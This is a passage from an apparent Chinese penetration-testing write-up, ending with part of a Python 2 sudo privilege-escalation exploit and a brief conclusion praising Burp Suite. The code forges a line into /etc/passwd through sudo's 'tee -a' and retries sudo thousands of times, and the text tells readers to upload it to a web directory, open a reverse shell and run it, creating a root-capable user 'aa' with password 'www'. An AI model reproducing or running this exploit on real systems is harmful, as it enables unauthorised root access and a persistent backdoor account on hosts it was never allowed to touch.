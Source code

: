 ```php
# last element. prepare space for '/usr/bin/sudo' and extra 8 bytes
env[-1] = env[-1][:-len(SUDO_PATH)-1-8]

env.append(None)

cargv = (c_char_p * len(argv))(*argv)
cenvp = (c_char_p * len(env))(*env)

# write passwd line in stdin. it will be added to /etc/passwd when success by "tee -a"
r, w = os.pipe()
os.dup2(r, 0)
w = os.fdopen(w, 'w')
w.write(APPEND_CONTENT)
w.close()

null_fd = os.open('/dev/null', os.O_RDWR)
os.dup2(null_fd, 2)

for i in range(8192):
    sys.stdout.write('%d\r' % i)
    if i % 8 == 0:
        sys.stdout.flush()
    exit_code = spawn_raw(SUDO_PATH, cargv, cenvp)
    if exit_code == 0:
        print("success at %d" % i)
        break

```

这个脚本使用python2运行，部分centos自带python的。

把脚本上传到网站目录，然后反弹一个交互shell，运行脚本。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-ffd3bc9bc2c9fca2c12d372306448d3ad663d408.png)  
成功后会生成一个aa的用户，默认密码为www  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-f57008024b950d1a04786e7b183385f142d12dea.png)  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-4ed97675c79016996893cf6335aa59e8347d2a6c.png)

0×03结论
------

善于运用工具可以为渗透带来极大的便利，尤其是BURP是一个非常强大的工具，这次渗透就是运用了BURP的各种功能，还有很多功能也是非常好用的，大家可以多研究。同时有需要学习BURP的朋友可以在社区看我的另一篇文章，[基于实战的Burp Suite插件使用技巧](https://forum.butian.net/share/651),欢迎大家跟我一起交流。
